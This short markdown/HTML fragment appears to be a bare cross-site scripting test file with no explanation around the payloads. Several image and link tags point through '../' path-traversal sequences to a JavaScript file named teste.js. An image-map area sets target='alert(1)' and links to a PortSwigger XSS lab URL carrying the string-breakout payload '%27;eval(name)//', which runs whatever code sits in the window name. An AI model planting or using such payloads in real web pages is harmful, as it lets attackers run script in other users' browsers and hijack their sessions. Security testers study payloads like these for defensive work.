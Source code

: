 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<a href=# download="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">Test</a>
<img referrerpolicy="no-referrer" src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="validimage.png" width="10" height="10" usemap="#xss"><map name="xss"><area shape="rect" coords="0,0,82,126" target="alert(1)" href="http://subdomain1.portswigger-labs.net/xss/xss.php?context=js_string_single&x=%27;eval(name)//"></map>
